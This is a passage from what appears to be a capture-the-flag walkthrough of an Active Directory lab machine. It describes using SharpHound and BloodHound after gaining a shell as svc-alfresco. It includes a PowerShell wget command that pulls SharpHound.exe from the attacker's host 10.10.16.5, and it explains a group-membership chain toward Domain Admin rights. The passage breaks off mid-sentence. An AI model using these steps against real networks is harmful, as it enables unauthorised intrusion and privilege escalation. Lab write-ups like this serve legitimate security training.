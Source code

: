 3,shell as SYSTEM
With my shell, I’ll run SharpHound to collect data for BloodHound. I’ve got a copy of Bloodhound on my machine (you can use git clone https://github.com/BloodHoundAD/BloodHound.git if you don’t). I’ll start a Python webserver in the Ingestors directory, and then load it in to my current session:
`powershell wget http://10.10.16.5/SharpHound.exe -outfile SharpHound.exe`
Then we need to download to our local machine.

Under “Analysis”, I’ll click “Find Shorter Paths to Domain Admin”, and get the following graph:
![](images/Pasted%20image%2020240924094545.png)

There’s two jumps needed to get from my current access as svc-alfresco to Administrator, who is in the Domain Admins group.
Because my user is in Service Account, which is a member of Privileged IT Account, which is a member of Account Operators, it’s basically like my user is a member of Account Operators. And Account Operators has Generic All privilege on the Exchange Windows Permissions group. If I right click on the edge in Bloodhound, and select help, there’s an “Abuse Info” tab in the pop up that displays: